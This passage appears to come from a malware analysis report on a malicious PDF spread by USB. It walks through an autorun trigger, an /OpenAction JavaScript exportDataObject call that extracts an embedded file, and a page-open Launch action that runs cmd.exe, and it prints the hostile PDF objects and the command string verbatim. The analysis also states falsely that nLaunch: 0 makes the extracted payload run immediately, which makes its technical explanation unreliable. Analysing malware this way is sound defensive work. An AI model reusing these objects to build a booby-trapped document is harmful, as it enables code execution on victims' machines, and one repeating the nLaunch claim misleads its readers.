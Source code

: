 ### 5.1 Multi-Stage Infection Chain

**Stage 1: USB Insertion and Autorun Trigger**
* User inserts USB drive into Windows system
* autorun.inf configuration processed by Windows
* README.pdf automatically launched (no user interaction)
* Custom icon displays to maintain legitimate appearance

**Stage 2: PDF Opening and Catalog Processing (Object 1)**
```javascript
/OpenAction 27 0 R
```
* PDF reader processes document catalog
* `/OpenAction` trigger activates immediately
* Object 27 (JavaScript) executes automatically
* No security warnings presented to user

**Stage 3: JavaScript Execution and File Extraction (Object 27)**
```javascript
this.exportDataObject({ cName: "README", nLaunch: 0 });
```

**Technical Breakdown:**
* **`exportDataObject()`** — PDF JavaScript API for embedded file extraction
* **`cName: "README"`** — Extracts embedded file named "README"
  - Likely named: `README.exe`, `README.dll`, or similar executable
  - Hidden within PDF structure as embedded object
* **`nLaunch: 0`** — **CRITICAL PARAMETER**
  - Value `0` means: **Execute immediately after extraction**
  - No user confirmation or interaction required
  - Payload launches automatically upon extraction

**Attack Result:**
* Embedded malicious executable extracted to disk
* File immediately executed with user privileges
* Malware payload begins operation
* PDF continues processing to maintain stealth

**Stage 4: Page Action Trigger (Object 3)**
```javascript
/AA << /O 28 0 R >>
```
* `/AA` (Additional Actions) dictionary processed
* `/O` (On page Open) trigger activates
* Object 28 (Launch Action) invoked
* Secondary payload deployment pathway

**Stage 5: Command Execution via Launch Action (Object 28)**
```batch
/Win << /F cmd.exe
/D c:\windows\system32
/P /Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\README.pdf" (cd "Desktop"))&(if exist "My Documents\README.pdf" (cd "My Documents"))&(if exist "Documents\README.pdf" (cd "Documents"))&(if exist "Escritorio\README.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\README.pdf" (cd "Mis Documentos"))&(start README.pdf)
```

